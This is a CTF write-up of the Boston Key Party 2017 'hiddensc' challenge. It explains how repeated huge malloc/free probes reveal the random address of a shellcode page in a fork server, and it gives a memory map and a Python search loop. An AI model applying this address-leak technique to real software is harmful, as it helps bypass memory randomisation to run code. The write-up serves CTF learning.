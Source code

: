 # hiddensc

```
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
```

During the competition, I keep thinking how can trigger error such as `double free`, so that the `memory map` returned along with error message will contain the hidden address, but just can't find how to make it work ...  
After the competition, thanks to [this elaborate article](https://github.com/sebel1010/ctf-writeups/blob/master/2017/boston-key-party/hiddensc.md), I knew my original thought was wrong direction XD, and finally figured out this fantastic method ! So I record it here for memory .

## Analyze

This challenge is a fork server, which `mmap` a page of memory to store shellcode, while the address is random .  

And the program provide two features:  

* `[a]lloc` can let us allocate some space and decide whether `free` it right away .  
* `[j]ump` can let us assign an address and jump to it .

So if we know the random address, we can get shell immediately !

## Exploit

> Before doing following work, be sure to do the setting :
> `echo 1 | sudo tee /proc/sys/vm/overcommit_memory`
> This will enable us to allocate huge amount of memory to do the exploit !
> reference :
> [Overcommit and OOM](http://www.win.tue.nl/~aeb/linux/lk/lk-9.html#ss9.6)
> [overcommit document](https://www.kernel.org/doc/Documentation/vm/overcommit-accounting)

By observation, when we allocating huge size of memory, the allocated space may locate at :

* **before the page storing shellcode**
* after the shellcode page and before code segment
* between heap and some libraries

```
    Start Addr           End Addr       Size     Offset objfile
 0x651af4d0000     0x4e51af4d6000 0x480000006000        0x0
0x4e51af4d6000     0x4e51af4d7000     0x1000        0x0 /root/CTF/bostonKeyParty2017/hiddensc/poop.sc
0x5220d8d33000     0x5620d8d34000 0x40000001000        0x0
0x5620d8d34000     0x5620d8d36000     0x2000        0x0 /root/CTF/bostonKeyParty2017/hiddensc/hiddensc
0x5620d8f36000     0x5620d8f37000     0x1000     0x2000 /root/CTF/bostonKeyParty2017/hiddensc/hiddensc
0x5620d8f37000     0x5620d8f38000     0x1000     0x3000 /root/CTF/bostonKeyParty2017/hiddensc/hiddensc
0x5620d95e5000     0x5620d9606000    0x21000        0x0 [heap]
0x5777b8000000     0x5777b8021000    0x21000        0x0
0x5777b8021000     0x5777bc000000  0x3fdf000        0x0
0x5777bd48e000     0x7f77bd490000 0x280000002000        0x0
0x7f77bd490000     0x7f77bd49b000     0xb000        0x0 /root/glibc-2.19/64/lib/libnss_files-2.19.so
0x7f77bd49b000     0x7f77bd69a000   0x1ff000     0xb000 /root/glibc-2.19/64/lib/libnss_files-2.19.so
...
```

**If before the page storing shellcode has biggest space**, in above case, 0x4e51af4d6000 bytes, we can use following method to get the random address !  

Keep `malloc` and `free` right away with increased size. When the `FAIL`  message returned to us, increase size with smaller scale each time and keep doing the `malloc` and `free` work .  
After we can't increase the size anymore, we can deduce that the size of allocated space is the random address where the shellcode is located, at least not far away.  
This is because with the biggest possible allocated request, only the biggest continuous space can handle, and this is why the prerequisite exist !

```python
for i in range(11, 2, -1):
    for j in range(16):
        size += (1 << 4*i)
        print 'try malloc({})'.format(hex(size))
        if not alloc(size):
            size -= (1 << 4*i)
            break
```


